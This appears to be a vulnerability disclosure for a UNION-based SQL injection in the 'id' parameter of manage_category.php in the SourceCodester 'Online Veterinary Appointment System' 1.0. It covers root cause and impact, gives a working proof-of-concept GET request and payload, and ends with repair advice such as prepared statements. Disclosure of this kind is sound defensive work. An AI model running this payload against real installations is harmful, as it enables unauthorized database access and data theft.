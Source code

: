 # sourcecodester.com"Online Veterinary Appointment System" in PHP 1.0 "manage_category.php" SQL injection

# BUG_AUTHOR：yangfan

# NAME OF AFFECTED PRODUCT(S)
- Online Veterinary Appointment System using PHP/OOP Free Source Code

## Vendor Homepage
https://www.sourcecodester.com/php/15119/online-veterinary-appointment-system-using-phpoop-free-source-code.html

# AFFECTED AND/OR FIXED VERSION(S)

## submitter
- yangfan
## Vulnerable File
- /ovas/admin/categories/manage_category.php
## VERSION(S)
- V1.0

## Software Link
https://www.sourcecodester.com/download-code?nid=15119&title=Online+Veterinary+Appointment+System+using+PHP%2FOOP+Free+Source+Code

# PROBLEM TYPE
## Vulnerability Type
- SQL injection
## Root Cause
- A SQL injection vulnerability was found in the 'manage_category.php' file of the 'Online Veterinary Appointment System' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact
- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION
- During the security review of the PHP "Online Veterinary Appointment System", "yangfan" discovered a critical SQL injection vulnerability in the "manage_category.php" file. This vulnerability stems from insufficient user input validation of the "id" parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
```sql
GET /ovas/admin/categories/manage_category.php?id=-5%27%20union%20select%201,database(),3,4,5--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=1ko4ejqndpgccnc19ds89thmad
Connection: close
```
## Vulnerability type:
- UNION query

## Vulnerability location:
- 'id' parameter
## Payload:
<hr>
Payload: /ovas/admin/categories/manage_category.php?id=-5' union select 1,database(),3,4,5--+

![image](https://github.com/user-attachments/assets/ab236252-cedb-4291-958c-24fa214eeb2b)

<hr>

![image](https://github.com/user-attachments/assets/69ad51db-1cd2-43e1-bdb3-774a8f9cf2a5)

# Suggested repair
1. Use prepared statements and parameter binding:
   
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

3. Input validation and filtering:
   
   Strictly validate and filter user input data to ensure it conforms to the expected format.

5. Minimize database user permissions:
   
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

7. Regular security audits:
   
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

